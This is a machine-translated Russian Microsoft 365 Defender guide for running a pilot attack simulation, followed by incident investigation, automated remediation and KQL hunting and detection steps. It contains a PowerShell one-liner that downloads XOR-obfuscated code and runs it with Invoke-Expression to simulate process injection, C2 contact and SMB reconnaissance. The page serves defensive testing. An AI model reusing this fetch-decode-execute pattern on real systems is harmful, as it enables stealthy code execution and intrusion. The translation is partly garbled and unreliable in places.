


# <a name="run-your-microsoft-365-defender-attack-simulations"></a>Запуск имитации атак в Защитнике Microsoft 365

[!INCLUDE [Microsoft 365 Defender rebranding](../includes/microsoft-defender.md)]


|[](mtp-pilot-plan.md)<br/>[Планирование](mtp-pilot-plan.md)|[](prepare-mtpeval.md)<br/>[Подготовка](prepare-mtpeval.md)|<br/>Имитация атаки|[](mtp-pilot-close.md)<br/>[Закрытие и итоги](mtp-pilot-close.md)|
|--|--|--|--|
|||*Вы здесь!*||

В настоящее время вы работаете на этапе моделирования атаки.

После подготовки пилотной среды необходимо протестировать управление инцидентами в Microsoft 365 Defender, а также автоматизированное исследование и исправление. Мы поможем вам смоделировать изощренную атаку, которая использует расширенные методы для скрытие от обнаружения. Атака нумерирует открытые сеансы SMB на контроллерах домена и извлекает последние IP-адреса устройств пользователей. В эту категорию атак обычно не входят файлы, отброшенные на устройстве пострадавшего— они происходят исключительно в памяти. Они "выжидают за свой счет", используя существующие системные и административные средства, и внедряют свой код в системные процессы, чтобы скрыть их выполнение. Такое поведение позволяет избежать обнаружения и сохраняемого на устройстве.

В этом моделировании пример сценария начинается со сценария PowerShell. Пользователь может быть обманут при запуске сценария. Или сценарий может запускаться из удаленного подключения к другому компьютеру с ранее зараженного устройства — злоумышленник пытается переместиться в сети позже. Обнаружение этих сценариев может быть затруднено, так как администраторы также часто запускают сценарии удаленно для выполнения различных административных действий.


Во время моделирования атака внедряет оболочку в процесс, на первый взгляд, очень простой. Сценарий требует использования notepad.exe. Мы выбрали этот процесс для имитации, но злоумышленники, скорее всего, будут нацелены на длительный системный процесс, например svchost.exe. После этого код оболочки отправляется на сервер команд и управления (C2) злоумышленника, чтобы получить инструкции о том, как действовать дальше. Сценарий пытается выполнять запросы на запросы к контроллеру домена (DC). Злоумышленник может получить сведения о последних данных входа пользователя. После получения этой информации злоумышленники могут перемещаться по сети, чтобы перейти к определенной конфиденциальной учетной записи.

> [!IMPORTANT]
> Для достижения оптимальных результатов следуйте инструкциям по моделированию атак как можно ближе.

## <a name="simulation-environment-requirements"></a>Требования к среде имитации

Так как вы уже настроили пилотную среду на этапе подготовки, убедитесь, что у вас есть два устройства для этого сценария: тестового устройства и контроллера домена.

1. Убедитесь, что ваш клиент [включил Microsoft 365 Defender.](https://docs.microsoft.com/microsoft-365/security/mtp/mtp-enable#starting-the-service)

2. Проверьте тестовую конфигурацию контроллера домена:

   - Устройство работает с Windows Server 2008 R2 или более поздней версией.
   - Тестовый контроллер домена в [Microsoft Defender для удостоверений](https://docs.microsoft.com/azure/security-center/security-center-wdatp) и включает [удаленное управление.](https://docs.microsoft.com/windows-server/administration/server-manager/configure-remote-management-in-server-manager)
   - [Убедитесь, что включена интеграция Microsoft Defender](https://docs.microsoft.com/cloud-app-security/mdi-integration) для удостоверений и Microsoft Cloud App Security.
   - В вашем домене создается тестовый пользователь без разрешений администратора.

3. Проверьте конфигурацию тестового устройства:

   1. Устройство работает с Windows 10 версии 1903 или более поздней.

   1. Тестового устройства присоединяется к тестового домена.

   1. [Включит Защитник Windows антивирусной программы.](https://docs.microsoft.com/windows/security/threat-protection/windows-defender-antivirus/configure-windows-defender-antivirus-features) Если у вас возникли проблемы с включением Защитник Windows антивирусной программы, см. этот [раздел об устранении неполадок.](https://docs.microsoft.com/windows/security/threat-protection/microsoft-defender-atp/troubleshoot-onboarding#ensure-that-windows-defender-antivirus-is-not-disabled-by-a-policy)

   1. Убедитесь, что тестового устройства в Microsoft [Defender для конечной точки)](https://docs.microsoft.com/windows/security/threat-protection/microsoft-defender-atp/configure-endpoints).

Если вы используете существующий клиент и реализуете группы устройств, создайте выделенную группу устройств для тестового устройства и выдайте ее на верхний уровень в конфигурации.

## <a name="run-the-attack-scenario-simulation"></a>Запуск имитации сценария атаки

Чтобы запустить имитацию сценария атаки:

1. Войдите на тестовом устройстве с помощью тестовой учетной записи пользователя.

2. Откройте окно Windows PowerShell на тестовом устройстве.

3. Скопируйте следующий сценарий имитации:

   ```powershell
   [Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;$xor
   = [System.Text.Encoding]::UTF8.GetBytes('WinATP-Intro-Injection');$base64String = (Invoke-WebRequest -URI "https://winatpmanagement.windows.com/client/management/static/MTP_Fileless_Recon.txt"
   -UseBasicParsing).Content;Try{ $contentBytes = [System.Convert]::FromBase64String($base64String) } Catch { $contentBytes = [System.Convert]::FromBase64String($base64String.Substring(3)) };$i = 0;
   $decryptedBytes = @();$contentBytes.foreach{ $decryptedBytes += $_ -bxor $xor[$i];
   $i++; if ($i -eq $xor.Length) {$i = 0} };Invoke-Expression ([System.Text.Encoding]::UTF8.GetString($decryptedBytes))
   ```

   > [!NOTE]
   > Если открыть этот документ в веб-браузере, могут возникнуть проблемы с копированием полного текста без потери определенных символов или внесения дополнительных разрывов строк. Загрузите этот документ и откройте его на сайте Adobe Reader.

4. В запросе в paste and run the copied script.

> [!NOTE]
> Если вы используете PowerShell с использованием протокола удаленного рабочего стола (RDP), используйте команду Type Clipboard Text в клиенте RDP, так как метод **CTRL-V** или в виде вжатия правой кнопкой мыши может не работать. В последних версиях PowerShell иногда этот метод также не принимается. Может потребоваться сначала скопировать его в Блокнот в памяти, скопировать на виртуальной машине, а затем вкопировать в PowerShell.

Через несколько секунд <i>notepad.exe</i> откроется. Имитированный код атаки будет вводиться в notepad.exe. Оохранять автоматически созданный экземпляр Блокнота открытым для работы с полным сценарием.

Смоделированный код атаки будет пытаться связаться с внешним IP-адресом (имитируя сервер C2), а затем попытаться ухудшить работу контроллера домена через SMB.

После выполнения этого сценария на консоли PowerShell отобразилось сообщение.

```console
ran NetSessionEnum against [DC Name] with return code result 0
```

Чтобы увидеть функцию автоматического реагирования на инциденты в действии, не notepad.exe процесса. You'll see Automated Incident and Response stop the Notepad process.

## <a name="investigate-an-incident"></a>Исследование инцидента

> [!NOTE]
> Прежде чем мы пройдем по этому моделированию, посмотрите следующее видео, чтобы узнать, как управление инцидентами помогает собрать связанные оповещения вместе в рамках процесса исследования, где их можно найти на портале и как это поможет вам в ваших операциях безопасности:

> [!VIDEO https://www.microsoft.com/videoplayer/embed/RE4Bzwz?]

Переключившись на точку зрения аналитика SOC, вы можете начать изучение атаки на портале Центра безопасности Microsoft 365.

1. Откройте очередь инцидентов портала центра безопасности [Microsoft 365](https://security.microsoft.com/incidents) с любого устройства.

2. Перейдите **к пункту "Происшествия"** из меню.

    

3. Новый инцидент для имитации атаки появится в очереди инцидентов.

    

### <a name="investigate-the-attack-as-a-single-incident"></a>Исследование атаки как одного инцидента

Защитник Microsoft 365 сопоставляет аналитику и собирает все связанные оповещения и расследования из разных продуктов в один объект инцидента. Таким образом, Защитник Microsoft 365 демонстрирует более широкую историю атак, позволяя аналитику SOC понимать сложные угрозы и реагировать на них.

Оповещения, созданные во время моделирования, связаны с той же угрозой, и в результате автоматически объединяются как один инцидент.

Чтобы просмотреть инцидент:

1. Перейдите в очередь **инцидентов.**

   

2. Выберите самый новый элемент, щелкнув круг, расположенный слева от имени инцидента. На боковой панели отображаются дополнительные сведения об инциденте, включая все связанные оповещения. Каждый инцидент имеет уникальное имя, описывая его на основе атрибутов оповещений, которые он включает.

   

   Оповещения, которые показываются на панели мониторинга, могут фильтроваться на основе ресурсов служб: Microsoft Defender для удостоверений, Microsoft Cloud App Security, Microsoft Defender для конечной точки, Microsoft 365 Defender и Microsoft Defender для Office 365.

3. Выберите **"Открыть страницу инцидента",** чтобы получить дополнительные сведения об инциденте.

   На странице **"Инцидент"** можно увидеть все оповещения и сведения, связанные с инцидентом. Эти сведения включают сущности и ресурсы, задействованные в оповещении, источник обнаружения оповещений (Microsoft Defender для удостоверений, EDR) и причину их связи. Просмотр списка оповещений об инциденте показывает, как была совершена атака. В этом представлении можно просмотреть и изучить отдельные оповещения.

   Вы также  можете щелкнуть "Управление инцидентом" в правом меню, пометить инцидент, назначить его себе и добавить комментарии.

   

   

### <a name="review-generated-alerts"></a>Просмотр созданных оповещений

Рассмотрим некоторые оповещения, созданные во время имитации атаки.

> [!NOTE]
> Мы проберем только несколько оповещений, созданных во время имитации атаки. В зависимости от версии Windows и продуктов Microsoft 365 Defender, запущенных на вашем тестовом устройстве, вы можете увидеть больше оповещений, которые отображаются в несколько другом порядке.


#### <a name="alert-suspicious-process-injection-observed-source-microsoft-defender-for-endpoint-edr"></a>Оповещение: обнаружено подозрительное введение процесса (источник: Microsoft Defender для endpoint EDR)

Продвинутые злоумышленники используют сложные и скрытные методы для сохраняемого в памяти и скрытия от средств обнаружения. Одним из распространенных способов является работа с доверенным системным процессом, а не с вредоносным исполняемым кодом, что не позволяет средствам обнаружения и операциям безопасности выявлять вредоносный код.

Чтобы позволить аналитикам SOC перехватить эти сложные атаки, датчики глубины памяти в Microsoft Defender для конечной точки обеспечивают нашей облачной службе беспрецедентную видимость различных методов впрыска кода между процессами. На следующем рисунке показано, как Защитник конечной точки обнаруживает и оповещается о попытке ввести код <i>notepad.exe. </i>


#### <a name="alert-unexpected-behavior-observed-by-a-process-run-with-no-command-line-arguments-source-microsoft-defender-for-endpoint-edr"></a>Оповещение: непредвиденное поведение процесса, которое наблюдалось при запуске без аргументов командной строки (источник: Microsoft Defender для endpoint EDR)

Microsoft Defender для обнаружения конечных точек часто ориентирован на наиболее распространенный атрибут метода атаки. Этот метод обеспечивает устойчивость и повышает планку перехода злоумышленников на новые методики.

Мы используем крупномасштабные алгоритмы обучения, чтобы установить нормальное поведение общих процессов в организации и по всему миру и наблюдать за тем, когда эти процессы показывают аномальное поведение. Эти аномальные поведения часто указывают на то, что был введен лишний код, который работает в другом доверенном процессе.

В этом сценарии <i> процесс </i>notepad.exeс ненормальным поведением, включая связь с внешним расположением. Этот результат не зависит от конкретного метода, используемого для внедрения и выполнения вредоносного кода.

> [!NOTE]
> Так как это оповещение основано на моделях машинного обучения, которые требуют дополнительной обработки, может потребоваться некоторое время, прежде чем вы увидите это оповещение на портале.

Обратите внимание, что сведения оповещений включают внешний IP-адрес — индикатор, который можно использовать в качестве pivot для расширения исследования.

Выберите IP-адрес в дереве процесса оповещения, чтобы просмотреть страницу сведений об IP-адресе.


На следующем рисунке показана выбранная страница сведений об IP-адресе (щелкнув IP-адрес в дереве процесса оповещения).


#### <a name="alert-user-and-ip-address-reconnaissance-smb-source-microsoft-defender-for-identity"></a>Оповещение: учетные записи пользователей и IP-адресов (SMB) (источник: Microsoft Defender для удостоверений)

Использование протокола SMB позволяет злоумышленникам получать последние данные о входе пользователей, которые помогают им перемещаться по сети для доступа к определенной конфиденциальной учетной записи.

При этом обнаружении оповещение инициирует, когда выполняется оповещение сеанса SMB для контроллера домена.


### <a name="review-the-device-timeline-microsoft-defender-for-endpoint"></a>Просмотр временной шкалы устройства [Microsoft Defender для конечной точки]

После изучения различных оповещений в этом инциденте перейдите на страницу инцидента, которая была расследована ранее. Выберите **вкладку "Устройства"** на странице инцидента, чтобы просмотреть устройства, участвующие в этом инциденте, как сообщаетСя в Microsoft Defender for Endpoint и Microsoft Defender for Identity.

Выберите имя устройства, на котором была совершена атака, чтобы открыть страницу сущности для конкретного устройства. На этой странице можно увидеть оповещения, которые были инициированы, и связанные события.

Выберите **вкладку "Временная** шкала", чтобы открыть временную шкалу устройства и просмотреть все события и действия, наблюдаемые на устройстве, в хронологическом порядке, впереме с оповещениями.


Расширение некоторых наиболее интересных поведений предоставляет полезные сведения, такие как деревья процессов.

Например, прокрутите вниз до тех пор, пока не найдете обнаруженное событие оповещения **Подозрительный процесс.** Выберите **powershell.exe** в notepad.exe процесса под ней, чтобы отобразить полное дерево процессов для  этого поведения на графике сущностями событий на боковой области. При необходимости используйте панели поиска для фильтрации.


### <a name="review-the-user-information-microsoft-cloud-app-security"></a>Просмотр сведений о пользователе [Microsoft Cloud App Security]

На странице инцидента выберите  вкладку "Пользователи", чтобы отобразить список пользователей, участвующих в атаке. В таблице содержатся дополнительные сведения о каждом пользователе, включая оценку приоритета исследования каждого **пользователя.**

Выберите имя пользователя, чтобы открыть страницу профиля пользователя, на которой можно проводить дальнейшее исследование. [Узнайте больше об исследовании рискованных пользователей.](https://docs.microsoft.com/cloud-app-security/tutorial-ueba#identify)



## <a name="automated-investigation-and-remediation"></a>Автоматическое исследование и защита

> [!NOTE]
>Прежде чем мы ознакомим вас с этим моделированием, посмотрите следующее видео, чтобы ознакомиться с автоматизированным самостоятельным процессом восстановления, где его найти на портале и как это может помочь в ваших операциях безопасности:

> [!VIDEO https://www.microsoft.com/en-us/videoplayer/embed/RE4BzwB]

Перейдите к инциденту на портале Центра безопасности Microsoft 365. На **вкладке "Исследования"** **на** странице "Инциденты" показаны автоматизированные исследования, инициированные Microsoft Defender для удостоверений и Microsoft Defender для конечной точки. На приведенном ниже снимке экрана отображается только автоматическое исследование, инициированное Защитником для конечной точки. По умолчанию Защитник конечной точки автоматически устраняет артефакты, найденные в очереди, что требует устранения.


Выберите оповещение, которое вызвало исследование, чтобы открыть страницу **сведений об исследованиях.** Вы увидите следующие сведения:

- Оповещения, которые инициировали автоматическое исследование.
- Влияли на пользователей и устройства. Если индикаторы найдены на дополнительных устройствах, эти дополнительные устройства также будут указаны.
- Список свидетельств. Найденные и проанализированые сущности, такие как файлы, процессы, службы, драйверы и сетевые адреса. Эти сущности анализируются на возможные связи с оповещением и оцениваются как безвредные или вредоносные.
- Обнаружены угрозы. Известные угрозы, найденные во время исследования.

> [!NOTE]
> В зависимости от времени может по-прежнему работать автоматизированное исследование. Подождите несколько минут, пока процесс не будет завершен, прежде чем собирать и анализировать свидетельства и анализировать результаты. Обновите **страницу сведений об** исследованиях, чтобы получить последние результаты.


В ходе автоматического исследования Microsoft Defender для конечной точки определил процесс notepad.exe, который был введен в качестве одного из артефактов, требующих исправлений. Защитник конечной точки автоматически останавливает подозрительный процесс в рамках автоматического устранения.

Вы можете <i>notepad.exe</i> из списка запущенных процессов на тестовом устройстве.

## <a name="resolve-the-incident"></a>Устранение инцидента

После завершения исследования и подтверждения его устранения закроем инцидент.

Выберите **"Управление инцидентом"**. Установите состояние "Устранить **инцидент"** и выберите соответствующую классификацию.

Когда инцидент устранен, он закрывает все связанные оповещения в Центре безопасности Microsoft 365 и на соответствующих порталах.


Это завершает моделирование атак для управления инцидентами и автоматизированного анализа и устранения. Следующее моделирование поможет вам упреждающий поиск потенциально вредоносных файлов.

## <a name="advanced-hunting-scenario"></a>Сценарий "Расширенный поиск"

> [!NOTE]
> Прежде чем мы пройдемся по моделированию, просмотрите следующее видео, чтобы понять основные понятия, которые можно найти на портале, и узнать, как это поможет вам в ваших операциях безопасности:

> [!VIDEO https://www.microsoft.com/videoplayer/embed/RE4Bp7O]

### <a name="hunting-environment-requirements"></a>Требования к среде охоты

Для этого сценария требуется один внутренний почтовый ящик и устройство. Вам также потребуется внешняя учетная запись электронной почты для отправки тестового сообщения.

1. Убедитесь, что ваш клиент [включил Microsoft 365 Defender.](https://docs.microsoft.com/microsoft-365/security/mtp/mtp-enable#starting-the-service)
2. Определите целевой почтовый ящик, который будет использоваться для получения электронной почты.
    а. Этот почтовый ящик должен отслеживаться Microsoft Defender для Office 365 b. Устройство с требованием 3 должно получить доступ к этому почтовому ящику
3. Настройка тестового устройства: a. Убедитесь, что вы используете Windows 10 версии 1903 или более поздней версии.
    б. Присоединить тестового устройства к тестового домена.
    c. [Включит Защитник Windows антивирусной программы.](https://docs.microsoft.com/windows/security/threat-protection/windows-defender-antivirus/configure-windows-defender-antivirus-features) Если у вас возникли проблемы с включением Защитник Windows антивирусной программы, см. [этот раздел об устранении неполадок.](https://docs.microsoft.com/windows/security/threat-protection/microsoft-defender-atp/troubleshoot-onboarding#ensure-that-windows-defender-antivirus-is-not-disabled-by-a-policy)
    г. [Перенабор в Microsoft Defender для конечной точки.](https://docs.microsoft.com/windows/security/threat-protection/microsoft-defender-atp/configure-endpoints)

### <a name="run-the-simulation"></a>Запуск имитации

1. Из внешней учетной записи электронной почты отправьте сообщение электронной почты в почтовый ящик, который был определен на шаге 2 раздела "Требования к тестовой среде". Включайте вложение, которое будет разрешено через любые существующие политики фильтрации электронной почты. Этот файл не должен быть вредоносным или исполняемым. Рекомендуемые типы файлов: <i>PDF,</i> <i>EXE</i> (если разрешено) или документы Office, такие как файл Word.
2. Откройте отправленное сообщение с устройства, настроенное в соответствии с шагом 3 раздела "Требования к тестовой среде". Откройте вложение или сохраните файл на устройстве.

#### <a name="go-hunting"></a>Поиск

1. Откройте портал security.microsoft.com.

2. Перейдите к **поиску > advanced hunting**.

   

3. Создайте запрос, который начинается с сбора событий электронной почты.

   1. В области запроса выберите "Новый".

   1. Дважды щелкните таблицу EmailEvents из схемы.

      ```console
      EmailEvents
      ```

   1. Измените период времени на последние 24 часа. Если сообщение электронной почты, отправленное при моделировании выше, было в течение последних 24 часов, в противном случае измените время.

      

   1. Запустите запрос. У вас может быть много результатов в зависимости от среды для пилотного проекта.

      > [!NOTE]
      > См. следующий шаг для фильтрации параметров, чтобы ограничить возвращаемую информацию.

      

        > [!NOTE]
        > Расширенный поиск отображает результаты запроса в качестве табличные данные. Вы также можете выбрать просмотр данных в других типах форматов, таких как диаграммы.

   1. Посмотрите на результаты и определите, можете ли вы определить открытое сообщение. Для того чтобы сообщение отобралось в расширенных охотах, может потребоваться до 2 часов. Если среда электронной почты большая и имеется много результатов, для поиска сообщения можно использовать параметр **"Показать** фильтры".

      В примере сообщение было отправлено из учетной записи Yahoo. Щелкните **+** значок **рядом yahoo.com** в разделе SenderFromDomain, а затем нажмите кнопку **"Применить",** чтобы добавить выбранный домен в запрос. Используйте домен или учетную запись электронной почты, которая использовалась для отправки тестового сообщения на шаге 1 запуска имитации, чтобы отфильтровать результаты. Запустите запрос еще раз, чтобы получить меньший набор результатов, чтобы убедиться, что вы видите сообщение из имитации.

      

      ```console
      EmailEvents
      | where SenderMailFromDomain == "yahoo.com"
      ```

   1. Щелкните итоги строк в запросе, чтобы проверить запись.

      

4. Теперь, когда вы убедились, что видите сообщение электронной почты, добавьте фильтр для вложений. Сосредоточься на всех сообщениях электронной почты с вложениями в среде. В этом сценарии основное внимание уделите входящие сообщения электронной почты, а не тем, которые отправляются из вашей среды. Удалите все добавленные фильтры, чтобы найти сообщение, и добавьте "| where **AttachmentCount > 0** и **EmailDirection**  ==  **"Inbound".**

   В следующем запросе покажут результат с более коротким списком, чем исходный запрос для всех событий электронной почты:

   ```console
   EmailEvents
   | where AttachmentCount > 0 and EmailDirection == "Inbound"
   ```

5. Затем включите сведения о вложении (например, имя файла, хеши) в набор результатов. Для этого присоединитесь к таблице **EmailAttachmentInfo.** Общие поля для присоединения, в данном случае **NetworkMessageId** и **RecipientObjectId**.

   Следующий запрос также содержит дополнительную строку "| **переименование проекта EmailTimestamp=Timestamp,** которое поможет определить метки времени, связанные с сообщением электронной почты, и метки времени, связанные с действиями с файлами, которые вы добавим на следующем шаге.

   ```console
   EmailEvents
   | where AttachmentCount > 0 and EmailDirection == "Inbound"
   | project-rename EmailTimestamp=Timestamp
   | join EmailAttachmentInfo on NetworkMessageId, RecipientObjectId
   ```

6. Затем используйте значение **SHA256** из таблицы **EmailAttachmentInfo,** чтобы найти **deviceFileEvents** (действия с файлами, которые произошли в конечной точке) для этого hash. В этом поле обычно используется hash SHA256 для вложения.

   В итоговой таблице теперь содержатся сведения из конечной точки (Microsoft Defender для конечной точки), такие как имя устройства, какое действие было сделано (в данном случае фильтруются только события FileCreated) и место хранения файла. Также будет включено имя учетной записи, связанной с процессом.

   ```console
   EmailEvents
   | where AttachmentCount > 0 and EmailDirection == "Inbound"
   | project-rename EmailTimestamp=Timestamp
   | join EmailAttachmentInfo on NetworkMessageId, RecipientObjectId
   | join DeviceFileEvents on SHA256
   | where ActionType == "FileCreated"
   ```

   Теперь вы создали запрос, который будет определять все входящие сообщения электронной почты, в которых пользователь открыл или сохранил вложение. Вы также можете уточнить этот запрос, чтобы отфильтровать определенные домены отправитель, размеры файлов, типы файлов и так далее.

7. Функции — это особый тип join, который позволит получить дополнительные данные TI о файле, например о его преобладание, информацию о подписываемом и выдаваемом файле и т. д. Чтобы получить дополнительные сведения о файле, используйте **функцию FileProfile()** для обогащения:

    ```console
    EmailEvents
    | where AttachmentCount > 0 and EmailDirection == "Inbound"
    | project-rename EmailTimestamp=Timestamp
    | join EmailAttachmentInfo on NetworkMessageId, RecipientObjectId
    | join DeviceFileEvents on SHA256
    | where ActionType == "FileCreated"
    | distinct SHA1
    | invoke FileProfile()
    ```

#### <a name="create-a-detection"></a>Создание обнаружения

После создания запроса, который определяет сведения, о  котором вы хотите получать оповещения о том, произойдет ли они в будущем, можно создать настраиваемые обнаружения из запроса.

Настраиваемые обнаружения будут запускать запрос в соответствии с за настроенной частотой, а результаты запросов будут создавать оповещения системы безопасности на основе выбираемого актива. Эти оповещения будут соотноситься с инцидентами и могут быть отсмещены как любые другие оповещения системы безопасности, созданные одним из продуктов.

1. На странице запроса удалите строки 7 и 8, добавленные на шаге 7 инструкций "Поиск" и нажмите кнопку **"Создать правило обнаружения".**

   

   > [!NOTE]
   > Если нажать **кнопку "Создать правило обнаружения"** и в запросе будут ошибки синтаксиса, правило обнаружения не будет сохранено. Дважды проверьте запрос, чтобы убедиться, что ошибок нет.

2. Заполните необходимые поля информацией, которая позволит группе безопасности понять оповещение, причины его сгенерирований и необходимые действия.

   

   Убедитесь, что поля заполнены четко, чтобы дать следующему пользователю информированное решение об этом предупреждении правила обнаружения

3. Выберите объекты, на которые влияет это оповещение. В этом случае выберите **"Устройство"** и **"Почтовый ящик".**

   

4. Определите, какие действия должны происходить, если срабатывает оповещение. В этом случае запустите антивирусную проверку, но можно выполнить другие действия.

   

5. Выберите область для правила оповещения. Так как этот запрос включает устройства, группы устройств релевантны в этом пользовательском обнаружении в соответствии с контекстом Microsoft Defender для конечной точки. При создании настраиваемой системы обнаружения, которая не включает устройства в качестве объектов, область не применяется.

   

   Для этого пилотного проекта может потребоваться ограничить это правило подмножеством тестных устройств в производственной среде.

6. Нажмите **Создать**. Затем выберите **настраиваемые правила обнаружения** на панели навигации.

   

   

   На этой странице можно выбрать правило обнаружения, которое откроет страницу сведений.

   

### <a name="additional-advanced-hunting-walk-through-exercises"></a>Дополнительные расширенные поутренные занятия по поиску

Чтобы узнать больше о расширенных охотах, в следующих веб-трансляциях вы узнаете о возможностях расширенных выслеговок в Microsoft 365 Defender, чтобы создавать межстоловые запросы, свести их к сущностям и создать настраиваемые обнаружения и действия по исправлению.

> [!NOTE]
> Подготовьсь с помощью своей учетной записи GitHub для запуска запросов на поиск в пилотной тестовой лабораторной среде.

|Название|Описание|Загрузка MP4|Посмотрите на YouTube|CSL-файл для использования|
|---|---|---|---|---|
|Серия 1. Основы KQL|В Защитнике Microsoft 365 мы будем освещать основы расширенных возможностей охоты. Сведения о доступных расширенных данных охоты и базовом синтаксис и операторах KQL.|[MP4](https://aka.ms/MTP15JUL20_MP4)|[YouTube](https://youtu.be/0D9TkGjeJwM)|[Серия 1. CSL-файл в Git](https://github.com/microsoft/Microsoft-threat-protection-Hunting-Queries/blob/master/Webcasts/TrackingTheAdversary/Episode%201%20-%20KQL%20Fundamentals.csl)|
|Серия 2. Joins|Мы продолжим изучение данных в расширенных охотах и о том, как объединить таблицы. Узнайте о внутреннем, внешнем, уникальном и полумяговом подмыве, а также нюансах внутреннего унекта kusto по умолчанию.|[MP4](https://aka.ms/MTP22JUL20_MP4)|[YouTube](https://youtu.be/LMrO6K5TWOU)|[Серия 2. CSL-файл в Git](https://github.com/microsoft/Microsoft-threat-protection-Hunting-Queries/blob/master/Webcasts/TrackingTheAdversary/Episode%202%20-%20Joins.csl)|
|Видео 3. Суммирование, списание и визуализация данных|Теперь, когда мы можем фильтровать, управлять данными и присоединять их, пришло время начать суммировать, оценить, свести в итог и визуализировать данные. В этом выпуске мы оберем оператор суммы и некоторые вычисления, которые можно выполнить, вовсю в дополнительных таблицах схемы расширенных поисков. Мы включаем наборы данных в диаграммы, которые помогут улучшить анализ.|[MP4](https://aka.ms/MTP29JUL20_MP4)|[YouTube](https://youtu.be/UKnk9U1NH6Y)|[Серия 3. CSL-файл в Git](https://github.com/microsoft/Microsoft-threat-protection-Hunting-Queries/blob/master/Webcasts/TrackingTheAdversary/Episode%203%20-%20Summarizing%2C%20Pivoting%2C%20and%20Joining.csl)|
|Серия 4. Давайте поохотимся! Применение KQL к отслеживанию инцидентов|Время отслеживать действия злоумышленников! В этом примере мы будем использовать улучшенное понимание KQL и расширенный поиск в Microsoft 365 Defender для отслеживания атаки. Изучите некоторые советы и рекомендации, используемые в поле для отслеживания действий злоумышленников, включая abCs of cybersecurity и как применить их к реагированию на инциденты.|[MP4](https://aka.ms/MTP5AUG20_MP4)|[YouTube](https://youtu.be/2EUxOc_LNd8)|[Серия 4. CSL-файл в Git](https://github.com/microsoft/Microsoft-threat-protection-Hunting-Queries/blob/master/Webcasts/TrackingTheAdversary/Episode%204%20-%20Lets%20Hunt.csl)|
|

## <a name="next-step"></a>Следующий шаг

| <br>[Этап закрытия и сводки](mtp-pilot-close.md)|Проанализируйте результаты пилотного проекта в Microsoft 365 Defender, предоберите их заинтересованным лицам и вы можете сделать следующее.
|:-----|:-----|
